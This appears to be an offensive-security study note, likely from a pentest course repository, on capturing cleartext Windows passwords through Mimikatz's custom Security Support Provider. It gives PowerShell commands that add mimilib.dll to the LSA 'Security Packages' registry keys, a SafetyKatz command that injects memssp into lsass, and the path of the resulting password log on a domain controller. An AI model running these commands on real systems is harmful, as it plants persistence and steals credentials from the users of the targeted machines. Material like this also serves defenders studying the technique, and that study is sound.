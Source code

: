 - A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are
	- NTLM
	- Kerberos
	- Wdigest
	- CredSSP
- Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server.
- We can use either of the ways:
	- Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages:
	```
	$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
	
	$packages += "mimilib"
	
	Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
	
	Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
	```
	- Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable):
	```
	SafetyKatz.exe -Command '"misc::memssp"'
	```

- All local logons on the DC are logged to C:\Windows\system32\mimilsa.log